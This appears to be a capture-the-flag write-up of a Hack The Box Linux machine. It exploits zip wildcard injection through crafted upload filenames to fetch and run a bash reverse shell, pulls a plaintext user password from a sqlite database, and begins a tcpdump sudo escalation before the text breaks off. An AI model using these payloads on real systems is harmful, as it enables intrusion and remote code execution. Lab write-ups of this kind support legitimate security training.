Dump is a hard Linux box that hosts a website with two key flaws. First, the download functionality runs `zip` with an unquoted `*`, allowing wildcard injection (via crafted filenames like `-T` and `-TT <cmd>`) to achieve RCE and a foothold as `www-data`. `www-data` can run tcpdump as root with some security implementations in place, however it is not perfect and it still allows us to perform arbitrary file write as any user in the system. This box pushes the boundaries of what you can possibly do with tcpdump's file write primitive despite having limited control over the file content you can write over.


nmap scan shows 2 ports open, 22 and 80.

```bash
┌──(geedorah㉿kali)-[~/Desktop/htb/hard/dump]
└─$ sudo nmap -sCV 10.129.234.97 -p- 
Nmap scan report for 10.129.234.97
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u5 (protocol 2.0)
| ssh-hostkey:
|   3072 fb:31:61:8d:2f:86:e5:60:f9:e6:24:a3:1c:62:0c:ae (RSA)
|   256 0c:b7:c4:fb:4a:fc:31:1b:e9:4b:0b:d1:19:56:2f:ce (ECDSA)
|_  256 3c:c6:e8:71:4d:9a:d5:1d:86:dd:dd:6c:82:ee:7e:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.65 ((Debian))
|_http-title: hdmpll?
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.65 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
```


**Apache ( Port 80)**
---

Checking the website directs to a login page. 


Testing of default credentials like `admin:admin` or `admin:password` doesn't seem to work.


However, I am able to register an account.



I am also able to log in with the registered account that I've created.



There seems to be multiple functionalities I can test within the website.

To start, I'll go with Capture Live Traffic. It redirects me to capture.php.


It seems like port 34050 is being hosted on the website to capture tcpdump traffic. It is unusual for the web application to be able to run tcpdump, as it usually requires elevated privileges to capture raw sockets, which can only be run by sudo or with modified capabilities set. 

There are no packets captured.


If I were to run `nc -vz 10.129.234.97 34050`, there would be a packet captured.


Viewing the file shows a tcpdump output.


Any form of path traversal attempt via the fn parameter seems to be futile, as the website seems to be forcing some form of UUID regex validation.


If I go back to the home page, there would be 2 new uploaded files with UUIDs, indicative that the captured live traffic is uploaded.


Clicking on Download Capture outputs a zip file, which contains a list of the capture files created.




With Burp Suite, I'll be able to see what's happening when I download a file.


Download Capture actually redirects you to `download.php`. This output seems to be similar to the `zip` binary available in linux.



Testing this on my machine proves that this is indeed most likely handled by `zip`. 
```bash
┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ echo -n 'test' > testing.txt

┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ echo -n 'test' > testing2.txt

┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ zip test.zip testing.txt testing2.txt
  adding: testing.txt (stored 0%)
  adding: testing2.txt (stored 0%)


```


There could be a problem with the website's implementation of zip here. If it zipped our 2 files via the wildcard `*`, `zip` is actually susceptible to code injection.

HackTricks has a comprehensive documentation section on how you can abuse wildcards like this.



First, to confirm if the website is using wildcards, I'll create a file named `-h2`, which is a valid flag in zip to display more help options.



Since the website allows file uploads, I'll upload `-h2`.


It uploaded successfully without errors.


Viewing `download.php` via Burp Suite's Repeater function shows the help menu of zip, confirming wildcard abuse.



Getting Foothold as WWW-DATA
---

After discovering wildcard injection is possible, I can use the zip technique provided in HackTricks.

``` bash
# Prerequisites from hacktricks 
Attacker-controlled filenames (e.g., in an upload directory)
1) A file literally named: -T
2) A file named: -TT wget 10.10.14.17 -O s.sh; bash s.sh; echo x
3) Any benign file to include (e.g., data.pcap)
When the privileged code runs: zip out.zip <files...>
zip will execute: wget 10.10.14.17 -O s.sh; bash s.sh; echo  


# Explanation
-T flag in zip sets it in test archive mode.
-TT <cmd>flag tells zip to override the current testing routine, and to override it with a custom command of your choice.

```

I test the POC locally, and it works. 
```bash

# Local machine
┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ echo -n '' > '-T'

┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ echo -n '' > '-TT wget 10.10.14.77;-O s.sh; bash s.sh; echo x'

┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ echo -n 'test' > 'testing.txt'

┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ zip test.zip *
  adding: testing.txt (stored 0%)
Prepended http:// to '10.10.14.77'
--2026-05-26 23:59:26--  http://10.10.14.77/
Connecting to 10.10.14.77:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1623 (1.6K) [text/html]
Saving to: ‘index.html’

index.html                                                               100%[=================================================================================================================================================================================>]   1.58K  --.-KB/s    in 0s

2026-05-26 23:59:26 (677 MB/s) - ‘index.html’ saved [1623/1623]

sh: 1: -O: not found
bash: s.sh: No such file or directory
x zigfa7l5
test of test.zip OK


# Python Server
┌──(geedorah㉿kali)-[~/Desktop/htb/easy]
└─$ sudo python3 -m http.server 80
[sudo] password for geedorah:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.77 - - [26/May/2026 23:59:26] "GET / HTTP/1.1" 200 -

```


Take note that `/` is not allowed as a filename as it is used to indicate a directory in Linux. To circumvent this I'll instead craft `index.html` with a reverse shell code, that will be fetched and outputted as `s.sh`.

index.html
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.77/4445 0>&1'
```

With this, these are my 3 files that I'll upload to the website.
```
File 1 : -T
File 2 : -TT wget 10.10.14.77 -O s.sh; bash s.sh; echo x
File 3 : test.txt
```


I am able to delete the files that I uploaded on the website.







Clicking `Download Capture` shows a hit on my python server, and a reverse shell was returned.



Pivot to Fritz user
---

As I previously highlighted, it's unusual for `www-data` to have tcpdump privileges.

Looking through the web root directory, this command is being run on `/var/www/html/capturing.php`.

tcpdump is being run as sudo within the www-data user context.
```bash
www-data@dump:/var/www/html$ ls -la
total 56
drwxr-xr-x 3 root     root     4096 Mar  5  2023 .
drwxr-xr-x 5 root     root     4096 Mar  5  2023 ..
-rw-r--r-- 1 root     root     1364 Mar  5  2023 .functions.php
-rw-r--r-- 1 root     root      361 Mar  5  2023 capture.php
-rw-r--r-- 1 root     root      617 Mar  5  2023 capturing.php 
www-data@dump:/var/www/html$ cat capture.php
<?php
include '.functions.php';
session_start();
<SNIP>
    $filter = fopen($_SESSION['capdir'] . 'filter.' . $_SESSION['userid'],"w");
    fwrite($filter,"port " . $_SESSION['capport']);
    fclose($filter);
    system("sudo tcpdump -c10 -w" . $_SESSION['userdir'] . "/$cap -F" . 
    <SNIP>
www-data@dump:/var/www/html$

```


Running `sudo -l` as www-data actually shows it has sudo privileges to run tcpdump in a constrictive format that seems like a regex UUID filter. It also captures only the first 10 packets.
```bash
www-data@dump:/var/www/html$ sudo -l
Matching Defaults entries for www-data on dump:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dump:
    (ALL : ALL) NOPASSWD: /usr/bin/tcpdump -c10
        -w/var/cache/captures/*/[0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f]
        -F/var/cache/captures/filter.[0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f]
www-data@dump:/var/www/html$

```

There is also a sqlite3 database in `/var/www/database`.
```bash
www-data@dump:/var/www/database$ ls -la
total 28
drwx--x--x 2 www-data www-data  4096 May 26 15:00 .
drwxr-xr-x 5 root     root      4096 Mar  5  2023 ..
-rw-rw-rw- 1 www-data www-data 20480 May 26 15:00 database.sqlite3

```


`sqlite3` is installed on the host machine; I'll use it to query the tables and eventually find the password for fritz.
```bash
www-data@dump:/var/www/database$ sqlite3 database.sqlite3
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
fritz|Passw0rdH4shingIsforNoobZ!|534ce8b9-6a77-4113-a8c1-66462519bfd1
geedorah|geedorah|dbcd3f59-aacc-4fcb-81d5-e818e0f07daf
sqlite>

```

Despite being in the `adm` group, there is nothing we can do as `fritz`. The real meat is in `www-data`'s sudo privilege.
```
┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ sshpass -p 'Passw0rdH4shingIsforNoobZ!' ssh fritz@10.129.234.97
Linux dump 5.10.0-36-cloud-amd64 #1 SMP Debian 5.10.244-1 (2025-09-29) x86_64
fritz@dump:~$ whoami
fritz
fritz@dump:~$ id
uid=1001(fritz) gid=1001(fritz) groups=1001(fritz),4(adm)
fritz@dump:~$


```


Shell as root
---

Analysing the sudo privileges `www-data` has shows a wildcard accepted in the `-w` flag, which is to specify a file to direct the output to.
The `-F` is to specify filter rules for the tcpdump capture.
```bash
www-data@dump:/var/www/database$ sudo -l
Matching Defaults entries for www-data on dump:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dump:
    (ALL : ALL) NOPASSWD: /usr/bin/tcpdump -c10
